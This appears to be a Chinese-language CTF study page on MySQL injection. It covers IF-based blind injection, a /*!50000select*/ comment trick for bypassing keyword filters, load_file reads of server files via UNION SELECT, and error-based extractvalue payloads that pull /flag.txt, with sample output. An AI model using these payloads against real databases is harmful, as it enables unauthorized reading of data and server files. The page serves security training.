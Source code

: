 <br>

### IF语句逻辑判断

**`sql`中的`if`语句: `IF( expr1 , expr2 , expr3 )`**

**如果`exp1`的值为`True`,则返回`expr2`**

**如果`exp1`的值为`False`,则返回`expr3`**

基于此可以通过逻辑判断的方式进行盲注

题目见[Hack World](2e610037.html)

<br>

### 绕过正则匹配

如果有正则匹配关键字`\bselect\b` (这里`\b`的含义是精确匹配开头和结尾)

可以将`select`替换成:

```
/*!50000select*/  
```

<br>

### 通过root用户的权限来执行特殊功能

```
select user(); 可以查看当前数据库连接的用户
如果是root用户还可以在注入时使用特殊函数,例如:

1' union select '1',load_file('/var/www/html/addads.php'); 读取了/var/www/html/addads.php

```

<br>

### flag显示不全

#### reverse逆序输出结果

有的时候flag显示不全,需要逆序输出另一部分

```
reverse(select group_concat(real_flag_1s_here) from users)
```

<br>

#### replace将之前出来的内容替换成空值

```
' and extractvalue(1,concat(0x7e,(select load_file('/flag.txt')),0x7e))#
输出: errorXPATH syntax error: '~flag{e62bb712-dc5d-4f48-bd21-87'

' and extractvalue(1,concat(0x7e,(select replace((select load_file('/flag.txt')),"e62bb712-dc5d-4f48-bd21-87","")),0x7e))#
输出: flag{58112d0ecf}

最后拼接成完整flag:flag{e62bb712-dc5d-4f48-bd21-8758112d0ecf}
```

